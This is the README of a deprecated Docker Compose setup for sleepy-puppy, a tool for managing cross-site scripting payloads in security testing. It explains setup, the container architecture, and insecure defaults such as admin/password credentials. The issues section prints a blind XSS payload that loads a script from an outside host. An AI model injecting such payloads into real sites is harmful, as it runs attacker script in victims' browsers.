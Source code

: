 DEPRECATED
=======================


For full documentation, please see the [wiki](https://github.com/Netflix/sleepy-puppy/wiki).

This repo utilizes docker compose to launch a cluster of containers to support the sleepy-puppy project.  This is only meant to be used to **play**.  See the [Issues](#Issues) section for information regarding productionalizing these containers.

----------

###Requirements
* Latest version of [Docker Toolbox](https://www.docker.com/toolbox)
* A vm you have created with docker-machine
* Terminal with all docker env variables set

Starting
-------------
First determine the ip address of your docker vm

> docker-machine ls

Replace the host variable in `docker-compose.yaml` with that IP

```
    host: <YOUR IP ADDRESS HERE>
```

Start the conatiners

> docker-compose up

Stopping
-------------
> docker-compose stop

Try It Out
-------------
Launch web browser and connect to your docker container's IP over http. 
The default credientials are `admin/password`


Architecture
-------------

This project launches three containers:

 1. postgres:latest
 2. sleepy-puppy-nginx:0.2.0
 3. sleepy-puppy-web:0.2.0

Externally, only sleepy-puppy-nginx exposes any ports.  This container only exposes TCP 80.  See the [Issues](#Issues) section for an explanation of why TCP 443 was not exposed.


Issues
-------------

**No SSL**
Other containers in the zeroToDocker project use self-signed SSL certificates, as only the user will be required to have their browser accept this SSL cert.  For sleepy-puppy, the user, and anyone browsing any site with a sleepy-puppy payload would need to accept the self-signed SSL cert.

This is likely to cause confusion when trying to get a payload to fire.  To simplify the situation, the docker will not expose SSL.  To save a few characters and avoid mixed-content warnings, sleepy-puppy payloads exclude the protocol.

	> '"><script src=//ti.ht/x?u=2></script>

Because the payloads exclude the protocol, and the container is not listening on SSL, the payloads will only fire on HTTP (not HTTPS) sites.

If you plan to run this in production, you will need to obtain an SSL cert from a trusted source and modify the sleepy-puppy-nginx container to terminate the SSL.

----------

**Default credentials on the web UI**
The username for the sleepy-puppy web UI is `admin`.  The docker-compose.yml defines the password as `password` by setting the `DOCKER_ADMIN_PASS` environment variable.  

For production use, you will want to modify or remove this default account.

**Default Flask-Secret and CSRF-Secret**
The docker-compose.yml defines a `secret_key` and `csrf_session_key` environment variable which are passed into the Flask application.

For production use, you will want to modify these values.

**Default credentials on the postgres database**
The username for the postgres database is `postgres`.  The password for this database is actually set in the api-start.sh file found within the sleepy-puppy-web container.  This password is set to `password`.

You may wish to change this password for production use.
